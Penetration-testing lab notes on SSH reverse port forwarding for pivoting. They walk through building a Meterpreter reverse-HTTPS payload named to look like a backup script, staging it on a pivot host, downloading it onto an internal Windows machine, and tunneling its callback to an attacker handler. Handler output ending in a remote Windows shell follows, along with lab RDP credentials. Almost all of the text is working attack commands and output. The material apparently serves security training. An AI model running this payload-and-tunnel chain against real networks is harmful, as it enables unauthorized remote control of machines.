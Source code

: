 # Remote/Reverse Port Forwarding with SSH

![problematic_reverse_shell.png](problematic_reverse_shell.png)


1) Creating a Windows Payload with msfvenom

On our Attack Host for the Pivot Target Host :
msfvenom -p windows/x64/meterpreter/reverse_https lhost=$TARGET -f exe -o backupscript.exe LPORT=8080
Saved as: backupscript.exe


2) Configuring & Starting the multi/handler

On our Attack Host :
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8000
run

3) Transferring Payload to Pivot Host

scp backupscript.exe ubuntu@$TARGET:~/
backupscript.exe                                   100% 7168    65.4KB/s   00:00 

4) Start HTTP server on pivot host to download payload from $TARGET_AFTER_PIVOT
On The pivot target Host :
python3 -m http.server 8123

5) Download payload from $TARGET_AFTER_PIVOT

On The windows target after pivot Host :
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

172.16.5.129 : IP of Pivot host reachable from $TARGET_AFTER_PIVOT

6) Use SSH remote port forwarding to forward connections from 8080 to 8000 on the Pivot Host
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@$TARGET -vN

7) Execute the payload from the Windows target and view the logs
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000

8) Meterpreter Session Established
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>

![Reverse_Port_forwarding](Reverse_Port_forwarding.png)

## LAB

export TARGET_AFTER_PIVOT="172.16.5.19"
xfreerdp /v:$TARGET_AFTER_PIVOT /u:victor /p:pass@123